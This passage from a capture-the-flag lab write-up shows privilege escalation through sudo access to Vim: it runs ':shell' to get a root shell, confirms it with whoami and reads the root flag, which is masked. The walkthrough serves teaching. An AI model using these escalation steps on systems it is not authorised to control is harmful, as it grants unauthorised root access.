{% step %}
### Spawning a Root Shell via Vim

Using Vim's shell escape feature:

```bash
sudo vim
```

Within Vim, I entered command mode (press Esc) and typed:

```
:shell
```

This opened a shell with root privileges.

To confirm:

```bash
whoami
```

**Output:**

```
root
```

Navigated to the root directory:

```bash
cd /root
ls
```

Found `root.txt` and displayed its contents:

```bash
cat root.txt
```

{% hint style="info" %}
<mark style="background-color:green;">Question 10  : What's the root flag? XXXXXXXXXXXXXXXXXX</mark>
{% endhint %}

**Root flag obtained!** Congratulations, you’ve just pwned the machine! **Root flag obtained!**
{% endstep %}
{% endstepper %}

